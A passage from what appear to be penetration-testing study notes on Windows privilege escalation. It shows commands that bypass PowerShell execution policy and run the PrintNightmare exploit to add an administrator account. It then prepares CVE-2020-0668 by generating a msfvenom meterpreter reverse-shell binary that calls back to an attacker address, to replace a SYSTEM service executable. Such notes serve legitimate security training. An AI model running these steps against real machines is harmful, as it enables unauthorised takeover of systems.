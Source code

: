         # bypass execution policy on target
        Set-ExecutionPolicy Bypass -Scope Process

        # use the PS exploit script

        Import-Module .\CVE-2021-1675.ps1

        Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"

        # above exploit creates new user in Admin group
        net user hacker
        ```
    
    * CVE-2020-0668:

        * exploits arbitrary file move vulnerability in Service Tracing
        * we can use [this exploit for CVE-2020-0668](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668) - this project needs to built in Visual Studio, and it will create the '.exe' file
        * we can leverage third-party software, such as the Mozilla Maintenance Service, which runs in the context of SYSTEM and is startable by unprivileged users

        ```cmd
        whoami /priv
        # current user privileges

        # check permissions on the Mozilla binary
        icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
        # here, 'BUILTIN\Users' have only RX - read & execute permissions
        ```

        ```sh
        # on attacker
        # generate a malicious revshell binary to replace the Mozilla one
        msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe

        # host it
        python3 -m http.server 8000
        ```

